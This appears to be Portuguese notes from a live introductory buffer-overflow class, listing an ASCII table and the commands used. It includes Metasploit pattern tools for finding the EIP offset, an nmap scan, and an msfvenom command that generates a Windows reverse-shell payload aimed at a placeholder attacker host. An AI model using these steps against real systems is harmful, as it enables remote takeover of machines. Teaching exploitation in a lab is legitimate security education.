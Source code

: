 # Live - Buffer Overflow, uma introdução ao assunto

## Tabela ASCII
```
Char  Dec  Oct  Hex   Linux
(nl)   10 0012  x0a   \n
(cr)   13 0015  x0d   \r
A      65 0101  x41
B      66 0102  x42
C      67 0103  x43
```

## Comandos utilizados

**Gerando texto único para identificação da posição do EIP**
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700
```

**Checando a posição (offset) do EIP**
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438
```

**Conectando no rdesktop**
```
rdesktop -u usuario -p senha -g 65% -x m endereco
```

**Buscando informações do serviço**
```
nmap -Pn -p21 -A 192.168.15.150
```

**Gerando payload do shell reverso**
```
msfvenom -p windows/shell_reverse_tcp LHOST=IP_atacante LPORT=Porta_atacante -b "\x00\x0a\x0d\x40" -a x86 -f python
```
